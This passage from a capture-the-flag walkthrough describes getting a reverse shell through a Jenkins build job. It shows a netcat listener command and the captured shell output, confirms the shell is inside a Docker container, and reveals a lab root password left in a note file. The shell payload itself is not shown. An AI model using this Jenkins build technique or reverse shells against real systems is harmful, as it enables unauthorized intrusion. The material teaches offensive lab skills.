 <br>

![](images/internal10.png)

<br>

Once you've added the shell code click on save which will bring you back to the main project page you created.

Set up your listener with `nc -nvlp 4444` and then back on the Jenkins page click the **Build Now** button on the left menu which should give you a shell:

```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.86.6] 57220
sh: 0: can't access tty; job control turned off
$ whoami
jenkins
$ hostname
jenkins
```

<br>

## Another Shell

I upgrade my shell to an interactive one like we did earlier on the first shell.

I look around the filesystem and quickly realize this isn't a standard setup. There are no users in the **/home** directory and the root of the file system contains a file called **.dockerenv** so it looks like we're inside of a container. Running this also confirms that:

`cat /proc/self/cgroup`

```
12:blkio:/docker/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2
11:freezer:/docker/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2
```

As with before I look around the system and again find something in the **/opt** directory:

```
jenkins@jenkins:/opt$ cd /opt
jenkins@jenkins:/opt$ ls -al
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
jenkins@jenkins:/opt$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```